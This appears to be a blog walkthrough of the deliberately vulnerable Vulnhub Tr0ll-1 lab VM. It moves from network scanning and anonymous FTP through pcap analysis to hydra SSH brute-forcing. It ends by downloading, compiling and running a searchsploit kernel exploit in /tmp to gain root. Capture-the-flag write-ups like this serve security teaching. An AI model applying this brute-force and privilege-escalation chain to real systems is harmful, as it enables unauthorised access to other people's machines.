 ```yaml
---
title: 'Vulnhub: Tr0ll-1 Walkthrough'
date: '2019-05-30T13:06:55+05:30'
draft: true
autoThumbnailImage: true
---
```



Tr0ll1 OS can be found at <https://www.vulnhub.com/entry/tr0ll-1,100/> and is one of the many available already vulnerable, fun for hacking machines. These machines are vulnerable by default for pen testers and beginners to try their hands on.

This is how the machine looks like when run in VMware.







Now as with any machine, network scanning and enumeration is very important. To find the IP address of the target machine, I used 

arp-scan –l

\-l stands for local scan and ARP is the abbreviation for Address Resolution Protocol.

 

Now that I have run the command, we can see that 4 IP addresses are being displayed:

192.168.183.1 is the Default Gateway of the router

192.168.183.2 is the Default Gateway for VMware 

192.168.183.254 is the Broadcast Channel which broadcasts on the whole network

192.168.183.136 is the target IP address, Tr0ll-1 here.



I know now, the IP address of the target machine, so I can do an aggressive port scan using Network Mapper(nmap) for determining the versions of the services being run on ports and other information. 



nmap –A –Pn <IP address>



\-A for aggressive scan and –Pn to scan all machines even ones that don’t respond.



 

From the output of the aforementioned command, we can see that there are three open ports, 21 for ftp, 22 for ssh and 80 for http. Also, Anonymous FTP login is allowed and a file named “lol.pcap” in found on the ftp server. Under robots.txt file, on web server we find a disallowed directory named /secret and can be tried to access. 



Now since http is working on port 80, I tried to access the website hosted on the IP address of the machine. 

 

Here I found nothing but just an image and upon further checking for steganography, it showed no results. So, nothing new here.

 

Upon further diving into the website, I found a directory named /secret in the robots.txt file. This file, robots.txt is used to prevent web spiders (eg: google crawler showing it in search results) from accessing information inside the disallowed directories which might be confidential.



Now, opening the directory I just found, I find nothing but another troll image. 

 

Trying another approach, since I found nothing in the previous one, I remember that anonymous login was allowed on the ftp server so, I connect to the ftp server on the target machine using the command

ftp <target IP address>

 

Command ls is used to list all the files inside the directory.

ls

 

Now here I found the same file as that mentioned in the aggressive network scan I did before.

To work further upon the file, I copied it to my own machine using the command

get <filename> <local path to download  the file to>

If we don’t add the local path to download the file to, it is by default saved in the /root directory with the same name.

 

Now that we have successfully downloaded the file onto our machine we can see what is the utility it is used for, now I already know that .pcap files are usually wireshark saved files. Wireshark is a tool, pre-installed inside kali linux, it is a free and open-source packet analyser used for network analysis, protocol developments and much more.

Wireshark has a GUI based environment and we open the file we just downloaded from the target machine.

Wireshark > File > Open > /root/file.pcap > Open



 

The below is how Wireshark interface looks like, it is divided into various tab for easy access and functionality. Further more the workspace is divided into three subparts, the first showing the count and type of all the packets, second showing the protocol information and Human Level Language data, the third layer only shows the complete data being sent inside each packet that is being analysed.

 

I now looked for any hints I could find inside the lol.pcap file we found on the ftp server of the vulnerable troll machine.

 

Here I found a packet stating something about a secret_stuff.txt file, I tried to find it on the webserver but it turns out it wasn’t of much importance. 

 

What I also found is another FTP DATA packer saying something about a “sup3rs3cr3tdirlol” named file or directory.

So after trying it, there existed a directory on the web server with the same name.

 

You can see that there was a file named roflmao in the directory, I downloaded it to the /root directory (default) using 

wget <file address>

 

Since the file has no extension I just tried to read it string-wise, using the linux command

strings <filename>

 

Another little hint hidden here was the “0x0856BF”, the first possibility of this string was to be another directory on the web server. So, I tried for just the same: 

 

Here I found two folders, as you can see above. Now the contents of these are shown below.

 

The “good_luck” named folder contained a text file with contents below.

 

The first most probable guess was this is a list of usernames which can be brute forced.

 

On the other hand, the other directory too had a text file named Pass.txt and containing “Good\_job\_:)” 



 

I downloaded both the files using wget command.

 

 



Once downloaded, I edited the text files using a GUI based pre-installed text editor and removed the extra un-required text in the file containing usernames most probably. Also, since the other folder read “this_folder_contains_the_password”, just as another safety measure, I also added the name of the text file “Pass.txt” in the list of probable passwords.

 

 

After that was done, the task was now to brute force these supposed credentials that we had, to do that, I used the tool named hydra, which is one of the best and fastest brute forcing tools available in Kali. I brute forced the SSH protocol running on port 22.

hydra –L <username list> -P <password list> ssh://<IP of target machine> -V  (for verbose)

 

 

Upon running the commands successfully, we find the brute forced username and password as “overflow” and “Pass.txt”. This proves the importance of taking hints since the filename was the password itself. 

Using these credentials I tried logging in using SSH.

ssh <username>@<host address>



 

The credentials successfully logged me in, now I could do some discovery in the target machine itself using basic linux commands.

 

Now that I had access to the directories, I checked the release version of the presently running operating system and find if it has any vulnerability I can exploit to gain root access.

We use the following command to check the release date and version 

cat /etc/*-release

 

Now that I knew the version of the operating system I searched for the exploits available for the same using the tool searchsploit in Kali

searchsploit ubuntu 14.04

 

Here I have highlighted the exploit which I thought was best to use, it’s a privilege escalation exploit I can use to gain root access from any normal user. 

I now copied the exploit file to the present working directory i.e. /root using the command

searchsploit –m <exploit file name> 

 

Now that I have copied the file to the working directory, I host a simple http server in the same directory using the command

python –m SimpleHTTPServer

(it’s a case sensitive command)

 

Once I have successfully hosted the server in the directory, I can now download this exploit onto the host machine using the normal user access I had through ssh and then execute the exploit to gain root access.

Now, most web servers or machines do not allow file transfer or creation in any folder due to obvious security reasons but they often do have a temporary where one can download or create or copy files to, I just used the same directory to download the exploit to using the following commands

cd tmp		(to change the directory to /tmp/)

wget <IP address of the machine you hosted the server on>/<exploit file present in the same dir>

 

ls		(to list the files in the directory)		

gcc <exploit file name> -o <name of the executable payload to generated>

 

Now I checked again to confirm the executable payload as been generated and is ready to exploit.

To run the executable exploit, 

./<executable payload file name>

 

After the execution I saw a “#” symbol which signified I have successfully gained root access. I further typed the command “bash” to make the interface more use-able.

 

To further check it, I also use commands like “whoami” and “id” to confirm root access.
